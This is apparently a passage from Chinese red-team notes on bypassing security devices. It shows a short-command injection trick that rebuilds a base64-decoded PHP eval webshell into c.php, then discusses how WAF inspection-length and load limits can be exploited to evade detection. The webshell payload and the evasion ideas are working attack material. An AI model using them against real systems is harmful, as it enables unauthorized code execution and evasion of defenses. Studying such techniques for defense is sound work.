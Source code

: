 ```
w>AgZ\\
w>waH\\
w>PD9\\
w>o\ \\
w>ech\\
ls -t>ls
sh ls
```

- w 长度最短的命令
- ls -t 以创建时间来列出当前目录下所有文件
- 文件列表以[ [ 换 行符] ]分割每个文件
- 引入 `\` 转义ls时的换行
- 换行不影响命令执行
- 成功构造任意命令执行，写入Webshell
```bash
ls -t
echo PD9waHAgZXZhbCgkX0dFVFsxXSk7 | base64 -d>c.php
```

`来自代码审计知识星球分享`

---

## 来源

![image](../../../../assets/img/安全/笔记/RedTeam/安防设备绕过总结/7.jpg)

---

## 性能角度

**性能检测**

WAF 在设计的时候都会考虑到性能问题，例如如果是基于数据包的话会考虑检测数据包的包长，如果是基于数据流的话就会考虑检测一条数据流的多少个字节。一般这类算检测的性能，同时为了保证 WAF 的正常运行，往往还会做一个 bypass 设计，在性能如 cpu 高于 80% 或则内存使用率高于如 80% 是时候，会做检测 bypass，以保证设备的正常运行。

现在问题就是检测多长呢？例如我用 HTTP POST 上传一个 2G 的文件，明显不可能 2G 全做检测不但耗 CPU，同时也会耗内存。因此在设计 WAF 的时候可能就会设计一个默认值，有可能是默认多少个字节的流大小，可能是多少个数据包。
